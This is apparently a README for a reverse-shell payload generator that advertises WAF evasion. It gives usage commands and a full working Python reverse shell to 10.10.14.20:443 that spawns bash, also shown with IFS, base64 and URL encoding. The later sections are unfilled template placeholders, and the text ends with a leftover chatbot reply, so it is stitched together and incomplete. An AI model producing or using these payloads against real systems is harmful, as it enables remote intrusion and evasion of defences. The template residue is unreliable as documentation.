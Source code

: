 ### **What Is It?**
**Omni-Reverse-Payload-Generator** Is a versatile and powerful tool that enables security professionals to quickly generate reverse shell payloads offline using various programming languages and shells. What sets this tool apart is its ability to seamlessly integrate multiple advanced encoding techniques directly within the generated output, allowing payloads to be pre-encoded with layers of obfuscation to effectively bypass security measures like Web Application Firewalls (WAFs).

### **Key Features**
- **Multiple Reverse Payload Generation**: Quickly generate payloads for various environments, including Bash, Netcat, Perl, Python, PowerShell, and MSSQL, ensuring compatibility with different target systems.
- **Environment Testing**: Generate commands to identify and test shell environments, such as PowerShell/CMD (Windows) and Bash/Sh (Unix/Linux), to verify which shell the target supports.
- **Advanced Encoding Options**: Utilize encoding techniques like URL encoding, Base64, and Internal Field Separator (IFS) manipulation to obfuscate payloads and bypass WAFs.
- **Customization and Flexibility**: Customize payloads with options to modify shell behavior, encoding, and injection methods tailored for specific vulnerabilities like SSTI and command injection.

### **Installation**
```bash
git clone https://github.com/loganpkinfosec/omni-reverse-payload-generator/
cd omni-reverse-payload-generator
chmod +x *
```

### **Usage**

```bash
# Basic Usage Format
python3 Omni-Payload-Generator.py <payload_type> <LHOST> <LPORT> [options]

# Example Commands
python3 Omni-Payload-Generator.py -ps 10.10.14.20 443       # Generate PowerShell reverse shell
python3 Omni-Payload-Generator.py -b 10.10.14.20 443 -e     # Generate Bash reverse shell with URL encoding
python3 Omni-Payload-Generator.py -y3 10.10.14.20 443 -ifs injection  # Generate Python 3 reverse shell with IFS manipulation for command injection
python3 Omni-Payload-Generator.py -y 10.10.14.20 443 -ifs ssti -e  # Python reverse shell for SSTI with URL encoding
```

### **Command Options/Swiches**
- `-b, --bash`: Generates a Bash reverse shell command.
- `-n, --netcat`: Generates a Netcat reverse shell command.
- `-p, --perl`: Generates a Perl reverse shell command.
- `-y, --python`: Generates a Python reverse shell command.
- `-y3, --python3`: Generates a Python 3 reverse shell command.
- `-ps, --powershell`: Generates a PowerShell reverse shell command in Base64.
- `-e, --urlencode`: URL encodes the generated reverse shell command.
- `-ifs, --use-ifs`: Uses IFS manipulation (`injection` or `ssti`) to replace spaces, enhancing payload delivery in specific scenarios.


**Example: Generating a Python3 Shell with IFS Manipulation**
```bash
Command: python3 Omni-Payload-Generator.py -y3 10.10.14.20 443 -ifs injection
Output: python3${IFS%??}-c${IFS%??}'import${IFS%??}socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",443));os.dup2(s.fileno(),0);${IFS%??}os.dup2(s.fileno(),1);${IFS%??}os.dup2(s.fileno(),2);subprocess.run(["/bin/bash","-i"]);'
```

**Example: Generating a Python3 Shell with IFS Manipulation via echoed base64 bashed method wrapped within url encoding**
```bash
Command: python3 Omni-Payload-Generator.py -y3 10.10.14.20 443 -ifs injection -e -b64
Output: bash%24%7BIFS%25%3F%3F%7D-c%24%7BIFS%25%3F%3F%7D%27echo%24%7BIFS%25%3F%3F%7D%22cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjIwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MucnVuKFsiL2Jpbi9iYXNoIiwiLWkiXSk7Jw==%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D-d%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%27
```

### **7. Screenshots or Diagrams**
Include screenshots of the tool in action or diagrams showing the flow of payload generation. Visual aids help users quickly grasp the tool's functionality.

### **8. Common Issues and Troubleshooting**
Add a section that covers common issues users might face and how to resolve them. Examples might include permission errors, encoding issues, or incorrect usage of flags.

### **9. Contribution Guidelines**
Encourage contributions from the community by outlining how others can contribute, report bugs, or suggest features.

### **10. License and Acknowledgments**
Clearly state the licensing of your tool and acknowledge any inspirations or dependencies.

---

**Enhancements Summary:**
- **Structuring**: The documentation is organized into sections, making it easy for users to navigate and find information quickly.
- **Clarity**: Detailed explanations for each command and flag, supplemented by example commands and outputs.
- **Visuals**: Including screenshots or diagrams can further clarify the tool’s usage.
- **Troubleshooting**: Providing a section for common problems will improve user experience and reduce confusion.

Would you like help creating screenshots, diagrams, or further refining any of these sections?
